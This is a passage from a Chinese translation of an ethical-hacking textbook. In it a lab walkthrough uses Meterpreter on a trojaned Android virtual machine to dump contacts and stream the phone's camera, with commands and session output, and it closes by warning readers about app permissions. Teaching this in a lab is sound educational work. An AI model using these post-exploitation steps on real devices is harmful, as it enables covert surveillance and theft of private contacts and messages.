     ```
    `meterpreter >` `dump_contacts` [*] Fetching 1 contact into list
    [*] Contacts list saved to: contacts_dump_*20210927103858*.txt
    ```

    Meterpreter 会显示它找到的联系人数量，并显示保存这些联系人的文件名以及该文件存储在你 Kali 机器上的位置。

1.  在 Kali 虚拟机中打开第二个终端窗口，并输入`cd`命令切换到你的主目录。然后输入命令`ls con*`列出 Meterpreter 保存的任何联系人文件：

    ```
    kali@kali:~# `ls con*`
    contacts_dump_*20210927103858*.txt 
    ```

    你会看到一个*.txt*文件，文件名为*contacts_dump_*，后面跟着时间戳（年、月、日和时间的数字格式）。

1.  输入`cat con`并按**TAB**键自动完成联系人文件名，然后按**ENTER**键显示文件内容：

    ```
    kali@kali:~# `cat contacts_dump_`*20210927103858*`.txt` `--snip--`
    #1
    Name: Bryson Payne
    Number: 404-555-1212
    Email: brysonpayne@myuniversity.edu
    ```

攻击者可以查看智能手机“联系人”应用中每个联系人完整的联系信息，还能读取你的短信和查看你最近打过的所有电话！

### 通过摄像头进行间谍监视

如果攻击者远程控制了你的智能手机，他们可以劫持设备的摄像头和/或麦克风。正如我们将看到的，这种间谍行为令人不安地简单。

1.  如果您有摄像头，可以通过虚拟机菜单栏中的**设备**▶**网络摄像头**来将其连接到 Android 虚拟机，并选择其名称。

1.  在连接摄像头后，重启您的 Android 虚拟机（选择**机器**▶**重置**并点击**重置**按钮）。然后通过点击 MainActivity 应用程序重新运行木马。

1.  在 Metasploit 中，按下**ENTER**键后出现错误`Meterpreter session closed`，然后输入命令`exploit`。

1.  当新的 Meterpreter 会话启动时，输入命令`webcam_list`查看您的摄像头是否已列出：

    ```
    meterpreter > `webcam_list`
    1: Back Camera
    ```

1.  使用命令`webcam_stream`查看来自摄像头的实时视频流：

    ```
    meterpreter > `webcam_stream`
    ```

网络摄像头将开始将视频（较慢）通过 Firefox 浏览器流式传输到您的 Kali 虚拟机，直到您关闭 Web 浏览器视频流，并在 Meterpreter 终端中按 CTRL-C（在 Windows 上）或 CONTROL-C（在 macOS 上）停止视频流。

如您所见，如果您的设备通过像我们构建的利用程序被攻破，攻击者可以通过智能手机的网络摄像头流式传输视频，就像他们可以访问您的笔记本或台式机摄像头一样。但与您的计算机摄像头不同，您可能会*随时*携带您的智能手机，您的朋友和家人也是如此。我们大多数人不希望像遮挡笔记本电脑摄像头那样遮挡智能手机的摄像头，因此更加重要的是小心我们安装的应用程序以及我们授予它们的权限。

### 盗取文件和查看日志
